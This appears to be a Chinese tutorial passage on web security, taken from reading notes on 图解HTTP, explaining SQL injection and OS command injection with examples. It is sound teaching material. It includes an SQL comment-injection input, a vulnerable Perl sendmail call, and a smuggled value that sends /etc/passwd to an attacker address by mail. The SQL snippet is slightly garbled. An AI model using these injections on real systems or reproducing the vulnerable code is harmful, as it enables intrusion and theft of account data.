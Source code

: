 SQL 注入攻击案例

URL 的查询字段已指定 q= 上野宣，这个值由 Web 应用传入到 SQL 语句中，构成下方的 SQL 语句。

```sql
SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1;
```

该 SQL 语句表示“从 bookTbl 表中，显示满足 author= 上野宣 and flag=1（可售）所在行的数据”。数据库内的 bookTbl 表记录着该购物网站的所有书籍信息。通过 SQL 语句，将满足作者名（author）上野宣并且 flag 为 1 双重条件的条目取出，最后作为搜索结果显示出来

如果把上野宣改写成“上野宣'--”。

构成的 SQL 语句就变成“从数据库的 bookTbl 表中，显示满足 author= 上野宣条件所在行的数据”，如下所示。

```sql
SELECT * FROM bookTbl WHERE author ='上野宣' - '-' and flag=1;'
```

SQL 语句中的 -- '之后全视为注释。即，and flag=1 这个条件被自动忽略了。'

结果跟 flag 的设定值无关，只取出满足 author=“上野宣”条件所在行的数据，这样连那些尚未出版的书籍也一并显示出来了。

本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。但实际发生 SQL 注入攻击时，很有可能会导致用户信息或结算内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度的损失。

#### OS 命令注入攻击

OS 命令注入攻击（OS Command Injection）是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。只要在能调用 Shell 函数的地方就有存在被攻击的风险。

可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell 时存在疏漏，就可以执行插入的非法 OS 命令。

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。

OS 注入攻击案例

下面以咨询表单的发送功能为例，讲解 OS 注入攻击。该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去。

![OS 注入攻击的攻击案例](/images/posts/2018-09-18-read-图解 HTTP-Part11-OS 注入攻击的攻击案例.png)

下面摘选处理该表单内容的一部分核心代码。

```shell
my $adr = $q->param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n";
```

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。
攻击者将下面的值指定作为邮件地址。

```shell
; cat /etc/passwd | mail hack@example.jp
```

程序接收该值，构成以下的命令组合。

```shell
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

攻击者的输入值中含有分号（; ）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。
